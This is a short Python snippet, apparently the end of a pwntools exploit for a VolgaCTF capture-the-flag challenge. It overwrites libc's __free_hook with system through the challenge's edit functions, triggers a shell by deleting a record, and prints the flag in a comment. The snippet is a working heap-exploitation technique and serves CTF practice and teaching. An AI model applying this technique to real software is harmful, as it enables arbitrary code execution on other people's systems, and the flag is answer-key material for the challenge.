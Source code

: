 ```python
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
new_content = p64(free_hook)[1:]
new_title = 'short' + '\x00'*3 + chr(free_hook & 0xFF)
modify_content('short', new_content)
modify_title('short', new_title)
modify_content('short', p64(system))

# Call shell command
delete_record('shell')
io.interactive() # VolgaCTF{N1cke1_unD_d!mE_a_b!t}
```